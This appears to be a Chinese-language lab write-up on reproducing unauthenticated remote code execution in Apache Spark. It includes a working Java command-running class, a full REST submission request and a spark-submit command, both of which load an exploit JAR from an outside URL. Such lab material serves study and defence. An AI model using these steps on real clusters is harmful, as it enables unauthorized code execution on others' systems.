 # Apache Spark 未授权访问漏洞

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

参考链接：

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## 漏洞环境

执行如下命令，将以standalone模式启动一个Apache Spark集群，集群里有一个master与一个slave：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到master的管理页面，访问`http://your-ip:8081`即可看到slave的管理页面。

## 漏洞利用

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

1. 利用REST API
2. 利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，如（参考链接1）：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

将其编译成JAR，放在任意一个HTTP或FTP上，如`https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`。

### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

![](1.png)

返回的包中有submissionId，然后访问`http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![](2.png)

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest api来提交应用；如果发现不是rest服务器，则会降级到使用submission gateway来提交应用。

查看结果的方式与前面一致。
